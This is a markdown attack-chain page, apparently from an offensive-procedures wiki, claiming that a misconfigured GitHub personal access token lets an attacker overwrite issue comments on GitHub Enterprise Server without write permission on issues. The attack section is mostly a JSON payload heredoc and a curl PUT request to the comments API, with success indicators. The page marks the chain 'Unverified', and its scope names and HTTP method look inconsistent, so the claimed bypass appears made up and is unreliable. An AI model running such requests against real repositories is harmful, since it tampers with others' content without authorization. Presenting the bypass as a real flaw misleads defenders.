

# Unauthorized Modification of GitHub Issue Comments via Misconfigured PAT Scopes

Multi-stage attack chain demonstrating exploitation of improper token scoping in GitHub Enterprise Server to unauthorizedly modify issue comments.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | Medium |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/curl]]

### Target Environment

- GitHub Enterprise Server
- Active repository with issues enabled
- API access via HTTPS

### Initial Access Requirements

- Personal Access Token (PAT) with scopes: issues:read, contents:write
- Read-only issues permission on the target repository
- Repository URL and issue ID

## Detailed Attack Procedures

### Step 1: Exploit PAT Scopes to Modify Issue Comment
procedure: [[procedures/Exploit-GitHub-PAT-for-Issue-Comment-Modification]]

**Objective**: Use a misconfigured PAT to update an existing issue comment without write permissions on issues, leveraging contents:write scope.

**Instructions**: Authenticate with the GitHub API using the PAT and send a PUT request to update the comment body. Ensure the token has the required scopes but only read-only on issues.

First, prepare the updated comment payload in JSON format:

```bash
cat > update_payload.json << EOF
{"body": "Modified comment content via exploited PAT scopes."}
EOF
```

Then, execute the API update using [[commands/github-api-update-comment]]:

```bash
curl -X PUT \
  -H "Authorization: token YOUR_PAT_TOKEN" \
  -H "Accept: application/vnd.github.v3+json" \
  -d @update_payload.json \
  https://your-github-enterprise-server/api/v3/repos/OWNER/REPO/issues/comments/COMMENT_ID
```

**Expected Output**: HTTP 200 response with the updated comment object, including the new body.

**Success Indicators**:
- Comment body updated successfully
- No authorization error returned
- API response confirms modification

## Attack Chain Summary

### Key Achievements

1. Bypassed read-only issues permission using contents:write scope
2. Unauthorized modification of repository issue comments
3. Demonstrated medium-impact access control flaw without full repository content access

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Valid Accounts]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2023-12-01T00:00:00Z*
